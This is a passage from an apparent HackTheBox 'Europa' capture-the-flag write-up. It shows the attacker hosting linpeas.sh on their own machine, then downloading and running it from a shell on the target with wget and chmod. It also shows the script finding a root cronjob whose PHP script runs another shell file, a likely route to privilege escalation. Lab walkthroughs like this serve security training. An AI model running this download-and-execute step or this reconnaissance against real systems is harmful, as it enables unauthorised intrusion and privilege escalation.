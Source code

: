 ```bash
- Local machine -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Europa]
└─# python3 -m http.server 80           
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.22 - - [09/May/2022 11:14:15] "GET /linpeas.sh HTTP/1.1" 200 -

- Netcat listener -
$ wget http://10.10.14.8/linpeas.sh
--2022-05-09 06:14:35--  http://10.10.14.8/linpeas.sh
Connecting to 10.10.14.8:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776423 (758K) [text/x-sh]
Saving to: 'linpeas.sh'
     0K .......... .......... .......... .......... ..........  6% 2.35M 0s
    50K .......... .......... .......... .......... .......... 13% 3.13M 0s
   100K .......... .......... .......... .......... .......... 19% 4.26M 0s
   150K .......... .......... .......... .......... .......... 26% 4.45M 0s
   200K .......... .......... .......... .......... .......... 32% 5.42M 0s
   250K .......... .......... .......... .......... .......... 39% 6.04M 0s
   300K .......... .......... .......... .......... .......... 46% 5.89M 0s
   350K .......... .......... .......... .......... .......... 52% 7.91M 0s
   400K .......... .......... .......... .......... .......... 59% 7.02M 0s
   450K .......... .......... .......... .......... .......... 65% 7.52M 0s
   500K .......... .......... .......... .......... .......... 72% 8.14M 0s
   550K .......... .......... .......... .......... .......... 79% 8.15M 0s
   600K .......... .......... .......... .......... .......... 85% 6.91M 0s
   650K .......... .......... .......... .......... .......... 92% 8.22M 0s
   700K .......... .......... .......... .......... .......... 98% 9.64M 0s
   750K ........                                              100% 8.98M=0.1s
2022-05-09 06:14:35 (5.49 MB/s) - 'linpeas.sh' saved [776423/776423]
$ chmod +x linpeas.sh
$ ./linpeas.sh
...
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --re./linpeas.sh: 2587: ./linpeas.sh: grep -R -B1 "httpd-php" /etc/apache2 2>/dev/null: not found
./linpeas.sh: 2773: ./linpeas.sh: gpg-connect-agent: not found
port /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	root	/var/www/cronjobs/clearlogs
...
```

There seems to be an interesting cronjob running called `clearlogs`!

```bash
$ cat /var/www/cronjobs/clearlogs
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
```
